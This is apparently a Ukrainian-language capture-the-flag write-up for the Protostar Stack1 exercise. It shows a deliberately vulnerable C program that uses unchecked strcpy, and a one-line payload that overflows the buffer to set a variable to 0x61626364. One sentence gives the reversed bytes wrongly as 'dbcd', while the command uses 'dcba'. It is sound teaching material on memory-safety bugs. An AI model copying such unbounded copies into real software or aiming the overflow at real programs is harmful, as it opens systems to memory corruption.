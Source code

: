 # STACK1

Отже, ось код для Stack0:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Це завдання виглядає так само, як Stack0, за винятком того, що замість перевірки, чи modified  було змінено, програма перевіряє, чи ми встановили для нього шістнадцяткове значення 0x61626364.
Тут використовується функція strcpy замість функції gets, однак уразливість така сама, як і перевірка меж.

Таким чином, ми можемо вирішити це, поставивши 64 ‘a’, а потім чотири байти, що відповідають 0x61626364 (або 'abcd'). Проте слід памятати, що Кожне 4-байтове подвійне слово починається з останнього байта і працює назад.
Тож треба перевертути ці 4 байти в зворотньмому порядку 0x61626364 (або 'dbcd')

Виконаємо команду: 
```
run $(python -c "print 'a'*64 + 'dcba'")
```
Результат:

![image](https://user-images.githubusercontent.com/47494881/147470791-7174e4e4-5a85-409f-b6e5-0049ce9ec129.png)




